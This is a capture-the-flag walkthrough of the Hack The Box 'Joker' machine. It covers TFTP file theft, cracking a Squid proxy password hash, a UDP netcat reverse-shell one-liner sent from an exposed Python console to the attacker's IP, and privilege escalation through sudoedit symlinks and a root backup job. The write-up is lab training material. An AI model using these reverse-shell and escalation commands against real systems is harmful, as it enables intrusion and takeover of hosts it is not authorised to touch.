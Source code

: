 
![logo](/logo.png)

# [Joker- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 22 Mar 2017 as the eight machine on HTB,Joker created by [eks](https://app.hackthebox.com/users/302)without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *Squid http
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/joker 10.10.10.21
```

###### Output 

![](/Linux/Linux-Hard/Joker/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/joker 10.10.10.21                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 16:28 EAT
Nmap scan report for 10.10.10.21
Host is up (0.34s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.27 seconds
```

looking at the results  we find out that there are 1 ports open and its a `Ubuntu`and its running an `squid 3.5.12`. 

port[22]-http
port[3128]

when we naviagate to [http://10.10.10.21:3128](http://10.10.10.21:3128)  we find a page  `error page`

![](/Linux/Linux-Hard/Joker/Screenshots/browser.png)

so we set another nmap to check for `UDP` ports

```sh
nmap -sV -sC -sU  -oA nmap/joker 10.10.10.21  
```

![](/Linux/Linux-Hard/Joker/Screenshots/udp.png)

# Exploitation

#### TFTP
Exploiting the TFTP server is trivial it will allow files to be transferred to the local machine. 

```sh
 tftp 10.10.10.21 
```

Once connected, the command `get /etc/squid/squid.conf `will get the Squid configuration file

![](/Linux/Linux-Hard/Joker/Screenshots/tftp.png)

Upon checking the `squid.conf` it revels  references `/etc/squid/passwords`.

![](/Linux/Linux-Hard/Joker/Screenshots/squid.png)

Downloading the passwords file reveals the login credentials for the proxy, however the password is hashed.

![](/Linux/Linux-Hard/Joker/Screenshots/hashed.png)

we we lauch hashcat and to know which hash  this one is we can be able to to go to this page [hashacat_example](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](Linux/Linux-Hard/Joker/Screenshots/hashes.png)

```sh
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/Linux/Linux-Hard/Joker/Screenshots/hashcat.png)



now after getting the password we go set a proxy then use those credential to view the page without the port.

![](/Linux/Linux-Hard/Joker/Screenshots/foxy.png)


![](/Linux/Linux-Hard/Joker/Screenshots/proxy.png)

Setting up a browser with the proxy and attempting to view http://127.0.0.1 reveals a URL
shortener.

![](/Linux/Linux-Hard/Joker/Screenshots/shorty.png)

Because we are not listenning to port 80 of the `127.0.0.1` of the box lets set a proxychain so that we can be able to fuzz other directories that exist in the box

so lets add an upsream burpsuite 

![](/Linux/Linux-Hard/Joker/Screenshots/burp.png)

Then we add a proxy redirect

![](/Linux/Linux-Hard/Joker/Screenshots/proxyre.png)

so when we do curl to confirm that we can be able to get the content of the shory url 

```sh
curl 127.0.0.1:80
```

![](/Linux/Linux-Hard/Joker/Screenshots/curl.png)


```sh
nano /etc/proxychains4.conf
```

![](/Linux/Linux-Hard/Joker/Screenshots/proxychain.png)

```sh
proxychains gobuster dir -u http://127.0.0.1:80 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k
```

![](/Linux/Linux-Hard/Joker/Screenshots/gobuster.png)
so upon viewing the console we get a page which seems that we can execute python codes

![](/Linux/Linux-Hard/Joker/Screenshots/console.png)

The Python console at /console/ can be used to obtain a reverse shell. However, only UDP is
available. 

so lets get a shell

```sh
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.15 1234 >/tmp/f &").read() 
```

![](/Linux/Linux-Hard/Joker/Screenshots/consoleweb.png)

and that way we get shell

![](/Linux/Linux-Hard/Joker/Screenshots/shell.png)

running `sudo -l` it reveals a `NOPASSWD`  file that is run by the user `alekos`. Using the
above exploit, it is possible to create a symbolic link pointing to the a`uthorized_key` file for the
alekos user.

![](/Linux/Linux-Hard/Joker/Screenshots/joker.png)

```sh
ln -s /home/alekos/.ssh/authorized_keys layout.html
```

![](/Linux/Linux-Hard/Joker/Screenshots/alekos.png)

i then cd to `/var/www/testing/` then i creat a folder leshack so that i can be able to do the symbolic link. so this first tries to edit the layout.html will the other tries to edit three files then edits the authorized key

```sh
sudoedit -u alekos /var/www/testing/leshack/layout.html
```

```sh
sudoedit  -u alekos /var/www/ .ssh/authorized_keys /layout.html
```

but when i edit the file to add my ssh am unable to exit from the nano. so i have to get an interactive shell.

```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
rest
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Hard/Joker/Screenshots/rows.png)

you can generate ths ssh key with

```sh
ssh-keygen
```

![](/Linux/Linux-Hard/Joker/Screenshots/ssh.png)


and after ssh because our key is on authorized keys for alekos we then get shell

![](/Linux/Linux-Hard/Joker/Screenshots/aleko.png)

![](/Linux/Linux-Hard/Joker/Screenshots/shell1.png)

we can get now get the user flag 

![](/Linux/Linux-Hard/Joker/Screenshots/userflag.png)

Now in order to privesc to root on this box we're going to take a look at alekos's files:

```sh
ls -lash backup/
```


![](/Linux/Linux-Hard/Joker/Screenshots/lash.png)

here we see that a backup is being made every 5 minutes by the root user. So let's extract one of these backups to see what it does:

![](/Linux/Linux-Hard/Joker/Screenshots/backup.png)

And here we see that basically there is a backup of the development folder that's being made every 5 minutes. So we basically make a symbolic link to /root/ so that the next backup that's being made is going to be that of the `**/root/**`  directory where the root flag is.

so we have mv the development folder so that we can be able to create alink with the development to the root.

![](/Linux/Linux-Hard/Joker/Screenshots/backupfile.png)


```sh
tar -xvf dev-
```

![](/Linux/Linux-Hard/Joker/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------